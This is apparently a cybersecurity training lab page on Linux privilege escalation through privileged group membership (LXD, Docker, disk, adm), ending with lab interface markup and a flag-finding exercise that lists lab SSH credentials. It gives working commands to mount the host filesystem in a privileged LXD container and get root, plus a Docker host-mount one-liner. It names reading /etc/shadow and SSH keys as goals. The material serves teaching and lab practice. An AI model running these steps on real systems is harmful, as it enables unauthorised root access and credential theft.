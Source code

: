 
<h1>Privileged Groups</h1>
<hr/>
<h2>LXC / LXD</h2>
<p>LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at <code>/mnt/root</code>. Let's confirm group membership and use these rights to escalate to root.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
</code></pre>
<p>Unzip the Alpine image.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
</code></pre>
<p>Start the LXD initialization process. Choose the defaults for each prompt. Consult this <a href="https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04">post</a> for more information on each step.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
</code></pre>
<p>Import the local image.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
</code></pre>
<p>Start a privileged container with the <code>security.privileged</code> set to <code>true</code> to run the container without a UID mapping, making the root user in the container the same as the root user on the host.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
</code></pre>
<p>Mount the host file system.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
</code></pre>
<p>Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type <code>cd /mnt/root/root</code>. From here we can read sensitive files such as <code>/etc/shadow</code> and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.</p>
<pre><code class="language-shell-session">devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
</code></pre>
<hr/>
<h2>Docker</h2>
<p>Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command <code>docker run -v /root:/mnt -it ubuntu</code>. This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as <code>/etc</code> which could be used to retrieve the contents of the <code>/etc/shadow</code> file for offline password cracking or adding a privileged user.</p>
<hr/>
<h2>Disk</h2>
<p>Users within the disk group have full access to any devices contained within <code>/dev</code>, such as <code>/dev/sda1</code>, which is typically the main device used by the operating system. An attacker with these privileges can use <code>debugfs</code> to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.</p>
<hr/>
<h2>ADM</h2>
<p>Members of the adm group are able to read all logs stored in <code>/var/log</code>. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.</p>
<pre><code class="language-shell-session">secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
</code></pre>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="31" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="4">US Academy 1</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 2 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="5">US Academy 2</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="13">US Academy 4</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="37" value="12">EU Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 2 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="38" selected="" value="2">EU Academy 2</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 3 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="38" value="9">US Academy 3</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="40" value="1">EU Academy 1</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 3 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="41" value="14">EU Academy 3</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 4 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="44" value="11">EU Academy 4</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;EU Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="48" value="15">EU Academy 6</option>
</select>
<p class="font-size-14 color-white mb-0 mt-2">PROTOCOL</p>
<div class="d-flex">
<div class="custom-control custom-radio custom-control-inline">
<input checked="" class="custom-control-input" id="rd_1" name="vpn-protocol" type="radio" value="udp"/>
<label class="custom-control-label green font-size-14" for="rd_1">UDP
                                    1337</label>
</div>
<div class="custom-control custom-radio">
<input class="custom-control-input" id="rd_2" name="vpn-protocol" type="radio" value="tcp"/>
<label class="custom-control-label green font-size-14" for="rd_2">TCP
                                    443</label>
</div>
</div>
<div class="d-flex justify-content-center">
<button class="btn btn-outline-success btn-lg download-vpn-settings mt-3 px-5 font-size-12">
                                DOWNLOAD VPN CONNECTION FILE
                            </button>
</div>
</div>
</div>
</div>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>
<label class="custom-control-label font-size-14 font-weight-normal text-white" for="showSolutionsModuleSetting">
                                Enable step-by-step solutions for all questions
                            </label>
<span aria-hidden="true" class="cursor-pointer font-size-14 ml-1 mr-1 text-white" data-content="Access to this feature is exclusive to annual subscribers. To acquire an annual subscription, kindly proceed by clicking &lt;a href='/billing'&gt;here&lt;/a&gt;." data-html="true" data-placement="top" data-toggle="popover" data-trigger="click" title="Activate Solutions">
<i class="fa fa-info-circle font-size-12"></i>
</span>
<img alt="sparkles-icon-decoration" class="ml-2 w-auto sparkles-icon" height="20" src="/images/sparkles-solid.svg">
</img></div>
</div>
</div>
<div class="card" id="questionsDiv">
<div class="card-body">
<div class="row">
<div class="col-9">
<h4 class="card-title mt-0 font-size-medium">Questions</h4>
<p class="card-title-desc font-size-large font-size-15">Answer the question(s) below
                                to complete this Section and earn cubes!</p>
<span class="spawnTargetBtn spawn-target-text-clone d-none">Click here to spawn the target
                                system!</span>
<p class="card-title-desc font-size-large font-size-15 mb-0">
    Target(s): <span class="text-success">
<span class="target" style="cursor:pointer;">
<i class="fad fa-circle-notch fa-spin"></i>
<span class="spawnTargetBtn">Fetching status...</span>
</span>
</span>
<button class="resetTargetBtn btn btn-light btn-sm" data-title="Reset Target(s)" data-toggle="tooltip" style="cursor: pointer; display: none;">
<i class="fad fa-sync text-warning"></i>
</button>
<br/>
<div class="d-flex align-items-center targetLifeContainer">
<span class="targetLifeTimeContainer" style="display: none;">
            Life Left: <span class="targetLifeTime font-size-15">0</span> minute(s)
                            <button class="extendTargetSystemBtn btn btn-light btn-sm module-button" data-title="Extend Life by 1 hour (up to 6 hours total lifespan)" data-toggle="tooltip">
<i class="fa fa-plus text-success extend-icon"></i>
<div class="extend-loader spinner-border spinner-border-small text-success d-none" role="status">
</div>
</button>
<button class="text-danger btn btn-light btn-sm module-button font-size-16 mb-1" data-target="#terminateVmModal" data-toggle="modal">
                    Terminate <span class="fa-regular fa-x text-danger font-size-13 ml-2"></span>
</button>
</span>
</div>
</p>
</div>
<div class="col-3 text-right float-right">
<button class="btn btn-light bg-color-blue-nav mt-2 w-100 d-flex align-items-center" data-target="#cheatSheetModal" data-toggle="modal">
<div><i class="fad fa-file-alt mr-2"></i></div>
<div class="text-center w-100 ml-1">Cheat Sheet</div>
</button>
<a class="btn btn-light bg-color-blue-nav mt-2 d-flex align-items-center" data-title='Key is already installed in "My Workstation"' data-toggle="tooltip" href="https://academy.hackthebox.com/vpn/key">
<div><i class="fad fa-chart-network mr-2"></i></div>
<div class="text-center w-100">Download VPN Connection File</div>
</a>
</div>
</div>
<div>
<div>
<p class="mb-0 font-size-12"><i class="fad fa-chart-network text-success mr-2 font-size-medium"></i>
                                SSH
                                to <span class="target-protocol-ip target-protocol-ip-111 text-dark"></span> with user "<span class="text-success">secaudit</span>" and
                                password "<span class="text-danger">Academy_LLPE!</span>" </p>
<label class="module-question" for="111"><span class="badge badge-soft-dark font-size-14 mr-2">+ 1 <i class="fad fa-cube text-success"></i></span> Use the privileged group rights of the secaudit user to locate a flag.
                            </label>
<div class="row">
<div class="col-lg-12 mb-4">
<input class="form-control bg-color-blue-nav" color="green" id="answer111" maxlength="191" placeholder="Submit your answer here..." type="text"/>
</div>
<div class="d-flex justify-content-end w-100 mr-3">
<p class="mb-0 mr-3 mt-1 font-size-14 font-medium text-white" id="questionStreakPointsText-111">
                                        +10 Streak pts</p>
<div class="mb-4 mr-1 d-flex align-items-center">
<button class="btn btn-primary btn-block btnAnswer" data-question-id="111" id="btnAnswer111">
<div class="submit-button-text">
<i class="fad fa-flag-checkered mr-2"></i> Submit
                                            </div>
<div class="submit-button-loader mx-4 d-none">
<i class="fa fa-circle-notch fa-spin"></i>
</div>
</button>
</div>
<div class="mb-4 mr-1">
<button class="btn btn-outline-warning btn-block" data-target="#hint111" data-toggle="modal" id="hintBtn111"><i class="fad fa-life-ring mr-2"></i> Hint
                                        </button>
</div>
</div>
</div>
<div class="">
</div>
</div>
</div>
</div>
</div>
